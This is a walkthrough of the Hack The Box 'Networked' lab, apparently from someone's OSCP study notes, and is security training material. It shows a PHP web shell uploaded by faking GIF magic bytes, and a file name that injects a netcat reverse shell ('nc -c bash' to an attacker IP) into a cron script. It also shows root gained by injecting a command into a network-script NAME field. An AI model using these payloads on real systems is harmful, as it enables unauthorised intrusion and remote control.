

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/networked-easy
---

# ✅ Networked (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Improper validate filter

**System Vulnerable:** 10.10.10.146

**Vulnerability Explanation:** The machine doesn't proper restrict access to sensitive information which could allow us to download the source code and bypass file upload with reverse shell and lead to command execution and gain access on the machine.

**Privilege Escalation Vulnerability:** Insufficient Input validation&#x20;

**Vulnerability Fix:** Restrict Access to Sensitive Information

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.146    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-21 09:09 EST
Stats: 0:07:59 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 46.79% done; ETC: 09:26 (0:09:05 remaining)
Stats: 0:12:49 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 89.63% done; ETC: 09:23 (0:01:29 remaining)
Nmap scan report for 10.10.10.146
Host is up (0.84s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

## Enumeration

### Port 80 Apache/2.4.6

Going through the port 80, we found a message on the webpage. By checking on source code, we found some comments.&#x20;

.png>)

.png>)

Let find hidden directory with gobuster.

```
└─$ gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.146
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/11/21 09:24:21 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 229]
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/photos.php           (Status: 200) [Size: 1302]                                  
/upload.php           (Status: 200) [Size: 169]                                   
/lib.php              (Status: 200) [Size: 0]                                     
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
```

Browsing on **/upload.php**, there is an upload options which we could verify if we can upload .php

.png>)

Checking on **/photo.php**, we can see some images and source code, the images are in **/uploads.**

.png>)

.png>)

Checking on **/backup** we found a file <mark style="color:red;">**backup.tar**</mark>. We can download the backup file and extract.

.png>)

```
└─$ tar xfv backup.tar                                                                                                                                                                    2 ⨯
index.php
lib.php
photos.php
upload.php
```

&#x20;Checking on **upload.php** file, it configured to filter the image upload with some extension.

We can bypass the filter by use [magic bytes](https://www.netspi.com/blog/technical/web-application-penetration-testing/magic-bytes-identifying-common-file-formats-at-a-glance/).

```
└─$ echo "GIF8; testing" > test.php
                                                                                                                                                                            
└─$ file test.php   
test.php: GIF image data 25972 x 29811
```

## Exploitation

Let write script to take cmd argument and execute.

```
└─$ cat shell.php.gif 
GIF8;
<?php system($_REQUEST['cmd']); ?>
```

We can upload our php shell script to the application.

.png>)

.png>)

By going through the shell we have upload, we can get code execution.

.png>)

Then, we can send this to burp proxy and replace with bash reverse shell.

.png>)

.png>)

## Privilege Escalation

### Shell as guly

Now we are on the machine but we don't have privilege on user guly. Let enumerate on the script.

```
bash-4.2$ ls
check_attack.php  crontab.guly  user.txt

bash-4.2$ cat check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
```

Base on cron job, the php script will run every 3minutes.

```
bash-4.2$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
```

The **check\_attack.php** is going to check every 3 minutes, if there is any invalid ip address or files on the machine, it will create file /tmp/attack.log and pass it to exec() function to delete it.

We can create a suspicious file which could trigger to the check\_attack.php script and it will past it to exec() function to remote it.

Go to /var/www/html/uploads and create a file as netcat reverse shell. For the file we can not use / symbol. So, with **netcat -c** options we can get the bash shell.

```
bash-4.2$ touch '; nc -c bash 10.10.14.31 5555'
```

Let start our netcat listener on port 5555. Wait for 3mns, the shell pop up as guly user.

```
nc -lvp 5555
```

.png>)

### Shell as root

### Auto script bash

First thing first, I will run sudo -l to check misconfigure file.

```
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh 
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

One we run the files, it requires to input some data. Viewing the file it contains data we filled.

```
[guly@networked ~]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=sa
PROXY_METHOD=a
BROWSER_ONLY=a
BOOTPROTO=a
```

Reference: [https://book.hacktricks.xyz/linux-unix/privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

The NAME= attributed in these network scripts is not handled correctly. If you have white/blank space in the name the system tries to execute the part after the white/blank space. Which means; everything after the first blank space is executed as root.

```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# whoami
root
<ipts]# cat /etc/sysconfig/network-scripts/ifcfg-guly                        
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=test bash
PROXY_METHOD=test
BROWSER_ONLY=test
BOOTPROTO=test
[root@networked network-scripts]# 
```
